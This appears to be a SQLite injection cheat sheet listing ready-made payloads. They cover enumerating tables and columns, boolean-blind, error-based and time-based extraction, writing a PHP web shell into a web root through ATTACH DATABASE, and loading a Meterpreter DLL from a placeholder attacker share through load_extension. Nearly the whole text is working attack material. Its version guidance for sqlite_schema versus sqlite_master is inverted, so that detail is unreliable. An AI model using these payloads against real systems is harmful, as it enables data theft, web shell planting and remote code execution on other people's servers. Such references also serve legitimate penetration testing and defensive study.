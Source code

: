 # SQLite Injection

## SQLite comments

```sql
--
/**/
```

## SQLite version

```sql
select sqlite_version();
```

## String based - Extract database structure

```sql
SELECT sql FROM sqlite_schema
```
if sqlite_version > 3.33.0 
```sql
SELECT sql FROM sqlite_master
```
## Integer/String based - Extract table name

```sql
SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

## Integer/String based - Extract column name

```sql
SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'
```

For a clean output

```sql
SELECT replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~') FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='table_name'
```

Cleaner output

```sql
SELECT GROUP_CONCAT(name) AS column_names FROM pragma_table_info('table_name');
```

## Boolean - Count number of tables

```sql
and (SELECT count(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' ) < number_of_table
```

## Boolean - Enumerating table name

```sql
and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name not like 'sqlite_%' limit 1 offset 0)=table_name_length_number
```

## Boolean - Extract info

```sql
and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('some_char')
```

## Boolean - Extract info (order by)

```sql
CASE WHEN (SELECT hex(substr(sql,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) = hex('some_char') THEN <order_element_1> ELSE <order_element_2> END
```

## Boolean - Error based

```sql
AND CASE WHEN [BOOLEAN_QUERY] THEN 1 ELSE load_extension(1) END
```

## Time based

```sql
AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
```


## Remote Command Execution using SQLite command - Attach Database

```sql
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
```

## Remote Command Execution using SQLite command - Load_extension

```sql
UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
```

Note: By default this component is disabled
